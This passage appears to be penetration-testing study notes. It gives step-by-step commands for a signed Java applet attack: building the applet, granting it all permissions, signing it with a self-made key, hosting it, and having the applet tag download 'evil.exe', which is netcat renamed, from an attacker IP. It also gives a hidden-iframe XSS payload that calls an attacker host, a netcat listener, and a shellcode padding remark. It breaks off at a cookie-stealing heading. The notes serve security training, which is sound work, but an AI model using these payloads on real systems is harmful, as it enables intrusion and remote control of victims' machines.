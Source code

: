 The resulting shellcode is 18 bytes smaller that the one used in the exploit. To keep the size similar, we can pad our shellcode with nops.

### Java Signed Applet Attacks

```text
//script code on pg 224
$ javac -source 1.7 -target 1.7 Java.java

$ echo “Permissions: all-permissions” > /root/manifest.txt

$ jar cvf Java.jar Java.class

$ keytool -genkey -alias signapplet -keystore mykeystore -keypass
mykeypass -storepass password123

[Unknown]:
Offensive Security
What is the name of your organizational unit?
[Unknown]: Ownage Dept
What is the name of your organization?
[Unknown]: Offensive Security
What is the name of your City or Locality?
What is the name of your State or Province?
What is the two-letter country code for this unit?
Is CN=Offensive Security, OU=Ownage Dept, O=Offensive Security, L=localhost,
ST=127.0.0.1, C=US correct?
$ jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass
-signedjar SignedJava.jar Java.jar signapplet

$ cp Java.class SignedJava.jar /var/www/html/

$ echo '<applet width="1" height="1" id="Java Secure" code="Java.class"
archive="SignedJava.jar"><param name="1"
value="http://10.11.0.5:80/evil.exe"></applet>' > /var/www/html/java.html

$ locate nc.exe

$ cp /usr/share/windows-binaries/nc.exe /var/www/html/evil.exe
```

## Web App Attacks

### XSS

```text
<iframe SRC="http://10.11.0.144/report" height = "0" width ="0"></iframe>

$ nc -nlvp 80
```

### Stealing Cookies
